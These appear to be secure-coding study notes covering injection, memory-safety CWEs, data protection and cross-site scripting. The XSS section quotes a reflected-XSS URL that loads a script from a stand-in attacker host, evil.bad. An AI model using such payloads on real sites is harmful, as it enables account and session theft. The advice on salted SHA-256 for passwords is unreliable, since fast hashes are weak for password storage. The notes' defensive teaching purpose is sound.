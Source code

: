 ## Use parameterized statements instead of string concatenation to prevent injection attacks

## Memory safety
- "0 days" are system components vulnerabilities, often leveraged by malware & viruses
	- system services
	- browsers
	- crypto libraries
	- document readers
- most common mistakes are:
	- Buffer Copy without checking size of input - CWE 120
	- incorrect calculation of buffer size - CWE 120
	- off by one - CWE 193
	- uncontrolled format string - CWE 134
- all lead to arbitrary access of memory outside the intended boundaries (**"Overflow"**)
- Overflows can be prevented by controlling the number of characters read into the buffer. This is done **using memory safe functions**
	- (or languages like Python/Rust)
	- functions that control the amount of data read into memory
	- input and input size validation
	- using constants for buffer sizes
	- paying attention to comparison operators while reading into memory
	- avoid input in a format string

## Protecting data
- protect data from unauthorized access
- confidentiality is one of three essential elements of information security, also known as the CIA triad:
	  - **Confidentiality**
	  - **Integrity**
	  - **Availability**
  - use one-way salted hashes with multiple iterations to store passwords
  - secure transmission of data **using latest TLS protocols and strongest ciphers**
  - **encrypt data at rest using the strongest cryptopraphic algorithm & keys**
	  - CWE 759: _The software uses a one-way cryptographic hash against an input that should not be reversible, such as a password, but the software does not also use a salt as part of the input._
	  - Salted SHA-2 class (SHA256 and up) foruser passwords
	  - Symmetric AES256 CBC with dynamic key/iv
	  - Asymmetric RSA 2048
  - Store encryption keys in a restricted KMS

## Cross-site scripting
- script makes it onto the page via a specially crafted URL sent to the user ("reflected XSS"), or by saving it into the site as an article or message ("stored XSS")
	- example reflecetd XSS:
`https://site.com/search.jsp?q='"/><script src="https://evil.bad/xss.js"></script>`

- **Neutralize the user input**
	- done implicitly by most modern Javascript frameworks like React or Angular
